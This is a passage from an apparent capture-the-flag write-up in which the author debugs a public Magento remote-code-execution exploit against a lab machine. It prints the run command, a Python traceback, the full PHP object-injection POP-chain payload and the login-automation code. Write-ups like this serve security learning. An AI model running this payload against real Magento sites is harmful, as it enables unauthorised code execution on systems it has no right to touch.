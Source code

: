 Here I have it already filled out, but that's the easy part. Running the exploit now only gives us errors. Time to debug.

### Debugging the Exploit

`python rce.py http://10.10.10.140/ "whoami"`
```
Traceback (most recent call last):
  File "37811.py", line 56, in <module>
    br['login[password]'] = password
  File "/usr/lib/python2.7/dist-packages/mechanize/_mechanize.py", line 796, in __setitem__
    self.form[name] = val
  File "/usr/lib/python2.7/dist-packages/mechanize/_form_controls.py", line 1963, in __setitem__
    control = self.find_control(name)
  File "/usr/lib/python2.7/dist-packages/mechanize/_form_controls.py", line 2355, in find_control
    return self._find_control(name, type, kind, id, label, predicate, nr)
  File "/usr/lib/python2.7/dist-packages/mechanize/_form_controls.py", line 2448, in _find_control
    raise ControlNotFoundError("no control matching " + description)
mechanize._form_controls.ControlNotFoundError: no control matching name 'login[password]'
```

Right below `# Config` for the exploit, it looks like the payload that actually exploits Magento.

```
# POP chain to pivot into call_user_exec
 payload = 'O:8:\"Zend_Log\":1:{s:11:\"\00*\00_writers\";a:2:{i:0;O:20:\"Zend_Log_Writer_Mail\":4:{s:16:' \
           '\"\00*\00_eventsToMail\";a:3:{i:0;s:11:\"EXTERMINATE\";i:1;s:12:\"EXTERMINATE!\";i:2;s:15:\"' \
           'EXTERMINATE!!!!\";}s:22:\"\00*\00_subjectPrependText\";N;s:10:\"\00*\00_layout\";O:23:\"'     \
           'Zend_Config_Writer_Yaml\":3:{s:15:\"\00*\00_yamlEncoder\";s:%d:\"%s\";s:17:\"\00*\00'     \
           '_loadedSection\";N;s:10:\"\00*\00_config\";O:13:\"Varien_Object\":1:{s:8:\"\00*\00_data\"' \
           ';s:%d:\"%s\";}}s:8:\"\00*\00_mail\";O:9:\"Zend_Mail\":0:{}}i:1;i:2;}}' % (len(php_function), php_function,
                                                                                      len(arg), arg)
```

And below the payload, the setup for the exploit.

```
# Setup the mechanize browser and options
 br = mechanize.Browser()
 #br.set_proxies({"http": "localhost:8080"})
 br.set_handle_robots(False)
 
 request = br.open(target)
 
 br.select_form(nr=0)
 br.form.new_control('text', 'login[username]', {'value': username})  # Had to manually add username control.
 br.form.fixup()
 br['login[username]'] = username
 br['login[password]'] = password
 br.method = "POST"
 request = br.submit()
 content = request.read()
```
